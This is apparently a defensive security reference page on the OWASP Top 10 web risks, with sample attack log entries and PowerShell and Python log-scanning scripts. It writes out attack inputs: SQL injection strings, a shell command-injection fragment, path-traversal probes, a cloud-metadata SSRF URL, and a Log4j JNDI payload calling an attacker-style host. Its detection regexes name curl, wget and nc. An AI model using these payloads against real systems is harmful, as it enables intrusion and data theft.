

# OWASP Top 10 for Web Applications

The **OWASP Top 10** represents the globally recognized consensus standard for the most critical security risks facing web applications. Security engineers, SOC analysts, and application architects must understand how attackers exploit these vulnerabilities, how to identify them in web logs, and how to implement defense-in-depth mitigations across application code, web servers, and reverse proxies.

---

## OWASP Top 10 Vulnerability Matrix



| Category | Risk Name | Adversary Technique | Real-World Impact | Primary Defense |
|:---|:---|:---|:---|:---|
| **A01:2021** | **Broken Access Control** | Modifying parameters (`/users/104` $\to$ `/users/105`), bypassing authorization checks, accessing hidden admin URLs. | Unauthorized data exfiltration, lateral movement across tenant boundaries. | Enforce server-side record ownership checks on every request; deny access by default. |
| **A02:2021** | **Cryptographic Failures** | Intercepting plaintext HTTP or outdated TLS 1.0/1.1 traffic; brute-forcing MD5/SHA1 password hashes. | Credential harvesting, sensitive PII/payment data exposure. | Enforce TLS 1.3/1.2 with HSTS; hash passwords using Argon2id or bcrypt; encrypt data at rest. |
| **A03:2021** | **Injection** | Supplying malicious SQL fragments (`' OR '1'='1`), OS shell metacharacters (`; cat /etc/passwd`), or HTML/JS tags. | Remote code execution (RCE), full database dump, host takeover. | Strictly parameterize SQL queries; avoid invoking shell commands directly; context-aware output encoding. |
| **A04:2021** | **Insecure Design** | Exploiting architectural flaws such as lack of rate limits on password resets or unrestricted file uploads. | Mass account takeover, unlimited financial credit consumption. | Threat modeling early in SDLC; secure design patterns; zero-trust architecture. |
| **A05:2021** | **Security Misconfiguration** | Scanning for default credentials, exposed `/admin` interfaces, debug stack traces, or missing security headers. | Instant unauthorized access, information leakage of internal directory trees. | Automated CIS hardening baselines; disable debug modes in production; apply security headers. |
| **A06:2021** | **Vulnerable & Outdated Components** | Exploiting published CVEs in open-source dependencies (e.g., Log4Shell, Apache Struts, Spring4Shell). | Immediate unauthenticated remote code execution. | Automated Software Composition Analysis (SCA) in CI/CD; aggressive dependency patching. |
| **A07:2021** | **Identification & Auth Failures** | Credential stuffing, brute-force attacks against login portals, weak session ID generation. | Mass account takeovers without requiring code vulnerabilities. | Mandatory Multi-Factor Authentication (MFA); account lockout / adaptive rate limiting; secure session tokens. |
| **A08:2021** | **Software & Data Integrity Failures** | Exploiting unverified auto-update routines, compromised npm/pip packages, or insecure Java/PHP deserialization. | Supply chain backdoor injection; remote code execution during object parsing. | Sign code and binaries; verify cryptographic hashes; avoid deserializing untrusted raw objects. |
| **A09:2021** | **Security Logging & Monitoring Failures** | Exploits succeed silently because authentication failures, privilege escalations, and 500 errors are not logged. | High adversary dwell time (months to years); inability to investigate incidents. | Forward high-fidelity audit logs to centralized SIEM; alert on anomalous access rates. |
| **A10:2021** | **Server-Side Request Forgery (SSRF)** | Supplying internal loopback (`http://127.0.0.1:8080`) or cloud metadata URIs (`http://169.254.169.254/latest/meta-data/`). | Exfiltration of cloud IAM instance tokens, pivot into isolated internal subnets. | Restrict egress traffic; block private/loopback/link-local IP ranges; validate input against strict allowlists. |

---

## Log Analysis & Web Attack Detection

Security analysts must recognize OWASP attack signatures in web server logs (NGINX, Apache, IIS, Azure Application Gateway, Cloudflare):

### 1. SQL Injection Signatures in Web Access Logs
```text
# Union-based injection probe
198.51.100.42 - - [06/Oct/2026:14:22:01 +0000] "GET /catalog.php?id=1%20UNION%20SELECT%20null,username,password%20FROM%20users-- HTTP/1.1" 500 1284

# Time-based blind SQL injection probe (pg_sleep / WAITFOR DELAY)
198.51.100.42 - - [06/Oct/2026:14:22:15 +0000] "GET /search?q=test%27%3BWAITFOR%20DELAY%20%270%3A0%3A10%27-- HTTP/1.1" 200 4523
```

### 2. Path Traversal & LFI Signatures
```text
# Directory traversal seeking Linux password database
203.0.113.88 - - [06/Oct/2026:15:01:10 +0000] "GET /view?page=../../../../../../etc/passwd HTTP/1.1" 400 312

# Windows system file access probe
203.0.113.88 - - [06/Oct/2026:15:01:22 +0000] "GET /download?file=..%5C..%5C..%5CWindows%5Cwin.ini HTTP/1.1" 403 289
```

### 3. Log4j / JNDI Remote Code Execution Probe
```text
203.0.113.99 - - [06/Oct/2026:15:10:05 +0000] "GET /login HTTP/1.1" 200 4102 "${jndi:ldap://c2.attacker.com:1389/Exploit}"
```

---

## Practical Examples

### 1. PowerShell: Rapid Web Access Log Threat Hunting

This script inspects IIS or NGINX access log files for high-frequency OWASP attack indicators:

```powershell
function Find-WebAttackPatterns {
    [CmdletBinding()]
    param(
        [Parameter(Mandatory = $true)]
        [string]$LogPath
    )

    $attackPatterns = @(
        @{ Name = "SQL Injection"; Pattern = "(?i)(union\s+select|waitfor\s+delay|information_schema|order\s+by\s+\d+|--|\bOR\b\s+['\d]=['\d])" }
        @{ Name = "Path Traversal / LFI"; Pattern = "(\.\./|\.\.\\|%2e%2e%2f|/etc/passwd|win\.ini|boot\.ini)" }
        @{ Name = "XSS Payload"; Pattern = "(?i)(<script|javascript:|onerror=|onload=|document\.cookie)" }
        @{ Name = "Command Injection"; Pattern = "(;|\||`)\s*(cat|id|whoami|powershell|cmd|wget|curl)\b" }
        @{ Name = "SSRF Metadata"; Pattern = "(169\.254\.169\.254|localhost|127\.0\.0\.1|0\.0\.0\.0)" }
    )

    if (-not (Test-Path $LogPath)) {
        Write-Error "Log file not found: $LogPath"
        return
    }

    Write-Verbose "Analyzing web log: $LogPath..."

    Get-Content -Path $LogPath | ForEach-Object -Begin { $lineNum = 0 } -Process {
        $lineNum++
        $line = $_

        foreach ($rule in $attackPatterns) {
            if ($line -match $rule.Pattern) {
                [PSCustomObject]@{
                    LineNumber = $lineNum
                    ThreatType = $rule.Name
                    MatchedText = $Matches[0]
                    RawLog     = $line
                }
                break
            }
        }
    }
}

# Example Usage:
# Find-WebAttackPatterns -LogPath "C:\inetpub\logs\LogFiles\W3SVC1\u_ex261006.log" | Format-Table -AutoSize
```

---

### 2. Python: Automated Web Vulnerability Log Triage Scanner

```python
import re
import sys
from typing import List, Dict

ATTACK_SIGNATURES = {
    "SQL Injection": re.compile(r"(union\s+select|select.*from|waitfor\s+delay|pg_sleep|information_schema)", re.IGNORECASE),
    "XSS": re.compile(r"(<script|javascript:|alert\(|onerror=|onload=|eval\()", re.IGNORECASE),
    "Path Traversal": re.compile(r"(\.\./|\.\.\\|%2e%2e|/etc/passwd|/windows/win\.ini)", re.IGNORECASE),
    "Command Injection": re.compile(r"(;\s*(cat|id|whoami|curl|wget|nc)|`.*`|\$\(.*\))", re.IGNORECASE),
    "SSRF Cloud Metadata": re.compile(r"(169\.254\.169\.254|metadata\.google\.internal)", re.IGNORECASE)
}

def scan_log_file(file_path: str) -> List[Dict[str, str]]:
    findings = []
    with open(file_path, "r", encoding="utf-8", errors="ignore") as f:
        for idx, line in enumerate(f, 1):
            for attack_name, pattern in ATTACK_SIGNATURES.items():
                match = pattern.search(line)
                if match:
                    findings.append({
                        "line": idx,
                        "type": attack_name,
                        "matched": match.group(0),
                        "snippet": line.strip()[:140]
                    })
                    break
    return findings

# Example execution:
# results = scan_log_file("/var/log/nginx/access.log")
# for r in results[:10]:
#     print(f"Line {r['line']} [{r['type']}]: {r['matched']} -> {r['snippet']}")
```

---

## Related References

- [SQL Injection & Parameterization](sql-injection.md) — Deep dive into SQLi attack mechanics and defensive parameterized queries.
- [Cross-Site Scripting (XSS) & CSP](xss-defense.md) — Stored, reflected, and DOM XSS prevention.
- [HTTP Security Headers](http-security-headers.md) — Hardening headers (HSTS, CSP, X-Frame-Options, nosniff).
- [API Security & Error Handling](../apis/security-error-handling.md) — OWASP API Security Top 10 breakdown.
- [OWASP Top 10 for Large Language Models](../owasp-llm-top-10.md) — Vulnerability taxonomy for generative AI and LLM apps.
- [NIST Cybersecurity Framework 2.0](../grc/nist-csf-2.md) — Aligning web application controls with Protect (PR) and Detect (DE).
